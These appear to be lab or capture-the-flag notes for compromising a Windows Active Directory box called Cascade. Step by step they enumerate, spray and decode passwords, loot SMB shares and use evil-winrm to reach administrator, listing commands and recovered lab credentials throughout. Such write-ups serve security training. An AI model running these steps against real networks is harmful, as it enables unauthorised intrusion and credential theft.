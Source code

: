 ### Enumeration
```
IP=10.10.10.10
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 53
	- DNS
- 88
	- kerberos
- 135
	- RPC
- 139
	- RPC
- 389
	- Microsoft Windows Active Directory LDAP (in: cascade.local., Site: Default-First-Site-Name)
- 445
	- smb
- 636
	- tcpwrapped
- 3268
	- Microsoft Windows Active Directory LDAP (in: cascade.local., Site: Default-First-Site-Name)
- 3269
	- tcpwrapped
- 5985
	- winrm
- 49154-49158
	- RPC
- 49169
	- RPC
- 49170
	- RPC
- 49179
	- RPC
### Foothold
- DNS
	- nslookup
		- server $IP
		- 127.0.0.1
	- dig @$IP domain
		- If domain resolves
			- dig axfr @$IP domain
- RPC/ SMB
	- enum4linux $IP
	- crackmapexec smb $IP -u guest -p "" --rid-brute
	- crackmapexec smb $IP -u "" -p "" --pass-pol
	- rpcclient -U '' $IP
		- enumdomusers
			- CascGuest
			- arksvc
			- s.smith
			- r.thompson
			- util
			- j.wakefield
			- s.hickson
			- j.goodhand
			- a.turnbull
			- e.crowe
			- b.hanson
			- d.burman
			- BackupSvc
			- j.allen
			- i.croft
		- queryusergroups RID
		- queryuser RID
- LDAP
	- ldapsearch -h 10.10.10.182 -x -s base namingcontexts
		- DC=cascade,DC=local
	- ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" > ldap-anonymous
	- ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=person)' > ldap-people
		- Find cascadeLegacyPwd: clk0bjVldmE= for r.thompson
		- echo 'clk0bjVldmE=' | base64 -d
			- rY4n5eva
- 445
	- smbclient -N -L //$IP
		- anonymous login successful, no shares
	- nmap --script smb-vuln* -p135,139,445 $IP
- r.thompson
	- crackmapexec smb -u r.thompson -p rY4n5eva --shares 10.10.10.182
		- READ 
			- Data
				- smbclient --user r.thompson //10.10.10.182/data rY4n5eva
					- mask ""
					- recurse ON
					- prompt OFF
					- mget *
				- Then look through files
					- Meeting_Notes_June_2018.html
						- Email from steve smith
						- Username: TempAdmin
						- Password is the admin account password
					- VNC Install.reg
						- "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
							- echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc_enc_pass
							- /opt/vncpwd/vncpwd vnc_enc_pass
							- sT333ve2
								- crackmapexec smb 10.10.10.182 -u users.txt -p sT333ve2
									- s.smith is successful
			- NETLOGON
			- print$
			- SYSVOL
- s.smith
	- crackmapexec winrm 10.10.10.182 -u s.smith -p sT333ve2
		- Connected
	- crackmapexec smb -u smith -p sT333ve2 --shares 10.10.10.182
		- READ
			- Audit$  data  NETLOGON  print$  SYSVOL
			- Audit$
				- mask ""
				- recurse ON
				- prompt OFF
				- mget *
				- Look through files
					- Audit.db
						- DeletedUserAudit Table
							- tempadmin deleted
						- Ldap
							- `1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
					- CascAudit.exe
						- Open with DNSpy on windows machine
							- Find password: c4scadek3y654321
							- Not the right password
						- Set a breakpoint and find the password is: w3lc0meFr31nd
	- crackmapexec smb 10.10.10.182 -u users.txt -p w3lc0meFr31nd
		- arksvc is successful
- arksvc
	- evil-winrm -u arksvc -p "w3lc0meFr31nd" -i 10.10.10.182
		- connected

### PE
#### Windows
- s.smith
	- whoami /all
	- Root drive directory
	- net user USERNAME
		- Check group memberships
			- Audit Share
				- net localgroup "Audit Share"
					- `Comment        \\Casc-DC1\Audit$
					- `cd C:\shares\audit
			- IT
- arksvc
	- net user USERNAME
		- AD Recycle Bin
			- Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
				- tempadmin showing as deleted
			- Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
				- `cascadeLegacyPwd : YmFDVDNyMWFOMDBkbGVz
				- echo YmFDVDNyMWFOMDBkbGVz | base64 -d
					- baCT3r1aN00dles
		- IT
- crackmapexec winrm 10.10.10.182 -u administrator -p baCT3r1aN00dles
	- Successful
- evil-winrm -u administrator -p baCT3r1aN00dles -i 10.10.10.182
	- rooted
### Credentials
### Lessons Learned